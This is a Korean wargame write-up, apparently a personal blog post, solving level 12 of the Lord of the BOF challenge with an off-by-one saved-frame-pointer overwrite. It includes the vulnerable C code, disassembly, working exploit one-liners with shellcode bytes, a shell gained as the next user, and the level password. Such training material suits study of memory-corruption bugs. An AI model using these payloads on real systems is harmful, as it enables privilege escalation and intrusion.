 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 BoF LEVEL12 (Golem -> Darkknight) : Sfp"
date: 2015-11-19 22:03:10
category: wargame
tags:  bof 
---
```


- id = golem
- pw = cup of coffee

<!--more--> 

## 1. 문제 : darkknight.c



```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkknight
        - FPO
*/

#include <stdio.h>
#include <stdlib.h>

void problem_child(char *src)
{
        char buffer[40];
        strncpy(buffer, src, 41);
        printf("%s\n", buffer);
}

main(int argc, char *argv[])
{
        if(argc<2){
                printf("argv error\n");
                exit(0);
        }

        problem_child(argv[1]);
}
```

일단 가장 큰 차이점은 main() 함수안에서 problem_child() 라는 함수 안에서 buffer[40] 에 대한 strncpy(buffer, src, 41) 가 이루어진다. 이전에는 한 함수 안에서 stack 에 저장된 return address 를 변조하도록 공격하였는데, 이번에는 하나의 함수에서 이전에 저장한 stack frame register 를 변조하여, 이를 복구하는 이전 caller function 에서 복구시에 원하는 shellcode 위치로 jump 하도록 해야한다. 이를 위해서는 frame register, $ebp, 함수 preamble, postamble 등에 대해서 잘 이해해야한다.

### 1.3 main()

```
0x804846c <main>:       push   %ebp
0x804846d <main+1>:     mov    %esp,%ebp
0x804846f <main+3>:     cmpl   $0x1,0x8(%ebp)
0x8048473 <main+7>:     jg     0x8048490 <main+36>
0x8048475 <main+9>:     push   $0x8048504
0x804847a <main+14>:    call   0x8048354 <printf>
0x804847f <main+19>:    add    $0x4,%esp
0x8048482 <main+22>:    push   $0x0
0x8048484 <main+24>:    call   0x8048364 <exit>
0x8048489 <main+29>:    add    $0x4,%esp
0x804848c <main+32>:    lea    0x0(%esi,1),%esi
0x8048490 <main+36>:    mov    0xc(%ebp),%eax
0x8048493 <main+39>:    add    $0x4,%eax
0x8048496 <main+42>:    mov    (%eax),%edx
0x8048498 <main+44>:    push   %edx
0x8048499 <main+45>:    call   0x8048440 <problem_child>
0x804849e <main+50>:    add    $0x4,%esp
0x80484a1 <main+53>:    leave
0x80484a2 <main+54>:    ret
0x80484a3 <main+55>:    nop
0x80484a4 <main+56>:    nop
```

### 1.4 problem_child()

```
0x8048440 <problem_child>:      push   %ebp
0x8048441 <problem_child+1>:    mov    %esp,%ebp
0x8048443 <problem_child+3>:    sub    $0x28,%esp
0x8048446 <problem_child+6>:    push   $0x29
0x8048448 <problem_child+8>:    mov    0x8(%ebp),%eax
0x804844b <problem_child+11>:   push   %eax
0x804844c <problem_child+12>:   lea    0xffffffd8(%ebp),%eax
0x804844f <problem_child+15>:   push   %eax
0x8048450 <problem_child+16>:   call   0x8048374 <strncpy>
0x8048455 <problem_child+21>:   add    $0xc,%esp
0x8048458 <problem_child+24>:   lea    0xffffffd8(%ebp),%eax
0x804845b <problem_child+27>:   push   %eax
0x804845c <problem_child+28>:   push   $0x8048500
0x8048461 <problem_child+33>:   call   0x8048354 <printf>
0x8048466 <problem_child+38>:   add    $0x8,%esp
0x8048469 <problem_child+41>:   leave
0x804846a <problem_child+42>:   ret
0x804846b <problem_child+43>:   nop
```

## 2 함수 진입 & 복귀

이번 문제 풀이에서 가장 중요한 것은 기존 Frame Register가 어떻게 쓰이는 것을 이해하는 것이다. 기존과 달리 frame register를 이용한 공격하게 된다.

### 2.1 함수 내부 동작 : [A brief introduction to x86 calling conventions](http://codearcana.com/posts/2013/05/21/a-brief-introduction-to-x86-calling-conventions.html)

```
my_function:
  push %ebp              # Preamble: save the old %ebp.
  movl %esp, %ebp        # Point %ebp to the saved %ebp and the new stack frame.

  subl $0x4, %esp        # Reserve space for local variables.

  movl 0x8(%ebp), %eax   
  movl %eax, -0x4(%ebp)  # Move argument into local variable.

  # Function body. 

  addl $0x4, %esp        # Reclaim space used by local variables.

  leave                  # Epilogue: restore the old %ebp.
  ret
```

### 2.2 함수 진입

```
push %ebp             # Preamble: save the old %ebp.
mov %esp, %ebp         # Point %ebp to the saved %ebp and the new stack frame.
```


### 2.3 함수 jump

ARM 에서는 함수 jump 시에 return address 를 함수 prologue 에서 push rX, .., $lr stack push 를 해주었던 것 같은데, x86에서는 call function 이 알아서 해주는 듯 하다.

```
call function
```

### 2.4 leave() : [@stackoverflow: Why does leave do “mov esp,ebp” in x86 assembly?](http://stackoverflow.com/questions/5474355/why-does-leave-do-mov-esp-ebp-in-x86-assembly)

```
mov esp,ebp
pop ebp
```

### 2.5 ret()

```
pop eip
```

### 2.6 [x86 Call/Return Protocol](http://pages.cs.wisc.edu/~cs354-1/Handouts/Handout-CallReturn.pdf)

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/579f275f0c88410af2116ee22a08a1b572e4081b/2015/11/stage12-1.png)

```
| <argument 2>       |
| <argument 1>       |
| <return address>   |
| <old ebp>          | <= %ebp
| <local var 1>      |
| <local var 2>      | <= %esp
```

## 2. 공격

### 2.1 공격 방법 고민

여기서 중요한 점은 함수를 복귀시에 그전에 stack 에 저장해둔 saved $ebp 와 $lr 를 꺼내기 위하여 $esp를 saved $ebp 로 설정한 다음에 pop $ebp 하여 $ebp 를 설정하고 나서, 그 다음 word 에 있는 $lr 를 pop 하여 return 한다는 것이다. 즉, saved $ebp를 변조하면 함수 복귀 시의 주소 역시 바꿀 수 있다는 것이다.

### 2.2 공격

problem_child() 함수 안에서 buffer copy 시에 saved $ebp 의 마지막 한 바이트 값을 바꿀 수 있는데, 이는 main() 함수로 복귀한 이후에 saved $ebp 복원하는 과정에서 이 값으로 $esp 로 설정을 하여 pop 하여 $ebp 설정하고 (leave) 이후에 ret 시에 다음 +4 bytes 자리에 있는 값을 $eip로 설정하여 복귀하게 된다. 따라서 $ebp 값의 다음 word 자리의 값이 shellcode 가 위치한 두 번째 parameter 값이 있는 위치가 되도록 0xbffffdc8 로 선택하여 exploit 작성하였다.

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage12-3.png)

```bash
./darkknight `python -c 'print "\xc8\xfd\xff\xbf" * 10 + "\x04"'`  `python -c 'print "\x90"*100 + "\x68\xf9\xbf\x0f\x40\x68\xe0\x91\x03\x40\xb8\xe0\x8a\x05\x40\x50\xc3"'`    
Èý ¿Èý ¿Èý ¿Èý ¿Èý ¿Èý ¿Èý ¿Èý ¿Èý ¿Èý ¿ü ¿
                                          ý ¿Xü ¿Ë      @
bash$   
bash$ id
uid=511(golem) gid=511(golem) euid=512(darkknight) egid=512(darkknight) groups=511(golem)
```

## 3. 다음 단계 정보

```bash
bash$ id
uid=511(golem) gid=511(golem) euid=512(darkknight) egid=512(darkknight) groups=511(golem)
bash$ my-pass
euid = 512
new attacker
```

## 4. 의문점

사실 아래가 처음에 공격 시도한 exploit 인데, 앞의 성공한 경우 거의 동일하다. 차이가 있다면 ret 시 설정되는 값 위치를 특정 위치 하나만 설정하고, 나머지는 NOP Sled 을 깔은 것인데, 이것이 동작하지 않는다는 것은… gdb 실행한 경우와 실제 실행하는 경우의 stack 이 조금 다르게 잡히기 때문에 복귀 주소가 잘못되는 듯하다.

이렇게 두 경우의 stack 위치가 달라지는 경우에 어떻게 처리를 해야할지 모르겠다. 일단은 NOP Sled이나 특정값을 반복시켜서 stack 위치가 약간 틀어져서 동작하도록 해야할 듯 하다.

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage12-2.png)

```bash
./darkknight `python -c 'print "\x90"*20 + "\xc8\xfd\xff\xbf" * 4 + "\x04"*5'`  `python -c 'print "\x90"*100 + "\x68\xf9\xbf\x0f\x40\x68\xe0\x91\x03\x40\xb8\xe0\x8a\x05\x40\x50\xc3"'`
Èý ¿Èý ¿Èý ¿Èý ¿ü ¿
                  ý ¿Xü ¿Ë      @
Segmentation fault
```








